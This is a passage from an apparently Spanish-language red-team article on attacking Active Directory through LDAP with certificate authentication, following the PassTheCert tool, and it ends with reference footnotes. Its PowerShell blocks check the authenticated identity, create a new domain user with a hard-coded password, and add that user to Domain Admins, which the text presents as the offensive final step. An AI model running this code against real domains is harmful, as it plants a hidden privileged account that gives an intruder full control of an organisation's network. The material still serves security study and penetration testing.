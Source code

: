 Tal y como se hace en _PassTheCert_[^19], en primer lugar podemos verificar con que usuario nos hemos autenticado.

**Whoami**
```powershell
$whoami_req = New-Object System.DirectoryServices.Protocols.ExtendedRequest("1.3.6.1.4.1.4203.1.11.3")
$whoami_resp = [System.DirectoryServices.Protocols.ExtendedResponse]$LdapConnection.SendRequest($whoami_req)
Write-Host "Authenticated as:"
$response = [System.Text.Encoding]::ASCII.GetString($whoami_resp.ResponseValue)
Write-Host "`t$response"
```
A modo de verificación es una opción, pero continua sin tener fines ofensivos, y por tanto como último paso vamos a añadir un usuario al directorio activo, e incluir este al grupo de administradores de dominio, por tanto restan las siguientes dos acciones.

**Creación de usuario**
```powershell
$computer_dn = "CN=NewUser,CN=Users,DC=weird,DC=local"
$upwd = [System.Text.Encoding]::Unicode.GetBytes("P4ssw0rd")
$attributes = [System.DirectoryServices.Protocols.DirectoryAttribute []] @(
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "objectClass",@("user")
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "givenName","newUser"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "sAMAccountName","newUser"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "userAccountControl","544"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "cn","newUser"
    New-Object -TypeName System.DirectoryServices.Protocols.DirectoryAttribute -ArgumentList "pwdLastSet","-1"
)
$add_req = New-Object System.DirectoryServices.Protocols.AddRequest($computer_dn,$attributes)
try{
    $add_resp = [System.DirectoryServices.Protocols.AddResponse]$LdapConnection.SendRequest($add_req)
} catch[System.DirectoryServices.Protocols.DirectoryOperationException] {
    $PSItem.ToString()
}
``` 

**Incluir en grupo**
```powershell
$addMod= New-Object System.DirectoryServices.Protocols.DirectoryAttributeModification
$addMod.Name="member"
$addMod.Add("CN=NewUser,CN=Users,DC=weird,DC=local")
$addMod.Operation=[System.DirectoryServices.Protocols.DirectoryAttributeOperation]::Add
$mod_req=New-Object System.DirectoryServices.Protocols.ModifyRequest ("CN=Domain Admins,CN=Users,DC=weird,DC=local",$addMod)
$mod_resp=[System.DirectoryServices.Protocols.ModifyResponse]$LdapConnection.SendRequest($mod_req)
```


[^1]: [certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
[^2]: [reg](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/reg)
[^3]: [MMC](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/mmc)
[^4]: [certreq](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certreq_1)
[^5]: [Obtención de certificado mediante certreq](https://learn.microsoft.com/en-us/system-center/scom/obtain-certificate-windows-server-and-operations-manager?view=sc-om-2022&tabs=Standal%2CEnter)
[^6]: [CSR](https://social.technet.microsoft.com/wiki/contents/articles/20580.wiki-glossary-of-technology-acronyms.aspx#C)
[^7]: [SecurityMasks](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.securitymasks)
[^8]: [Clase DirectorySearcher](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directorysearcher)
[^9]: [msPKI-Cert-Template-OID](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/4849b1d6-b6bf-405c-8e9c-28ede1874efa)
[^10]: [pKIExtendedKeyUsage](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/be8af2e6-01d8-49a5-bacf-be641041ac73)
[^11]: [msPKI-RA-Application-Policies](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/3fe798de-6252-4350-aace-f418603ddeda)
[^12]: [msPKI-RA-Policies](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/398eec80-19b4-42c6-a8eb-357bec133d4d)
[^13]: [msPKI-Certificate-Application-Policy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/44012f2d-5ef3-440d-a61b-b30d3d978130)
[^14]: [msPKI-Enrollment-Flag](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/ec71fd43-61c2-407b-83c9-b52272dec8a1)
[^15]: [msPKI-Certificate-Name-Flag](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1)
[^16]: [PkiCertificateAuthorityFlags](https://github.com/GhostPack/Certify/blob/2b1530309c0c5eaf41b2505dfd5a68c83403d031/Certify/Domain/CertificateAuthority.cs#L23)
[^17]: [Certify](https://github.com/GhostPack/Certify/blob/main/Certify/Lib/LdapOperations.cs)
[^18]: [Vadims Podāns](https://www.sysadmins.lv/blog-en/introducing-to-certificate-enrollment-apis-summary.aspx)
[^19]: [PassTheCert](https://github.com/AlmondOffSec/PassTheCert)